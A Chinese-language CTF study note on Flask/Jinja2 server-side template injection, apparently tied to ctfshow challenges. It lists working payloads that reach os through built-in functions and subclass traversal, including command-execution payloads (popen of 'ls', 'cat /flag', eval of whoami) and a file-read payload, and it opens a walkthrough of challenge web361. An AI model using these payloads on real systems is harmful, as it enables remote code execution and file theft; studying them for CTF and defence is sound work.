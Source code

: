 flask内置函数

```handlebars
Flask内置函数和内置对象可以通过{{self.__dict__._TemplateReference__context.keys()}}查看，然后可以查看一下这几个东西的类型，类可以通过__init__方法跳到os，函数直接用__globals__方法跳到os。（payload一下子就简洁了）
​
{{self.__dict__._TemplateReference__context.keys()}}
#查看内置函数
#函数：lipsum、url_for、get_flashed_messages
#类：cycler、joiner、namespace、config、request、session
{{lipsum.__globals__.os.popen('ls').read()}}
{{url_for.__globals__['os']['popen']('cat /flag').read()}}
#函数
{{cycler.__init__.__globals__.os.popen('ls').read()}}
#类
```

dict_\_就能找到里面的config

通用 getshell

```handlebars
原理就是找到含有 __builtins__ 的类，然后利用
​
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
#读写文件
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

#### **注入思路**

```python
1.随便找一个内置类对象用__class__拿到他所对应的类
2.用__bases__拿到基类（<class 'object'>）
3.用__subclasses__()拿到子类列表
4.在子类列表中直接寻找可以利用的类getshell
​
对象→类→基本类→子类→__init__方法→__globals__属性→__builtins__属性→eval函数
```

以上思路来自这位师傅[CTFshow刷题日记-WEB-SSTI(web361-372)\_ctfshow ssti 371-CSDN博客](https://blog.csdn.net/q20010619/article/details/120493997 "CTFshow刷题日记-WEB-SSTI(web361-372)_ctfshow ssti 371-CSDN博客")

### ctf试题：[ctfshow](https://www.ctf.show/)

##### web361

![image-20240218222650227](https://i-blog.csdnimg.cn/blog_migrate/1f75f3d9e13eb757ea53bf6ef4640c93.png)

你好，某某某，可以猜到传参一个应该是name

先试试{{4\*4}}，可以看出是ssti注入
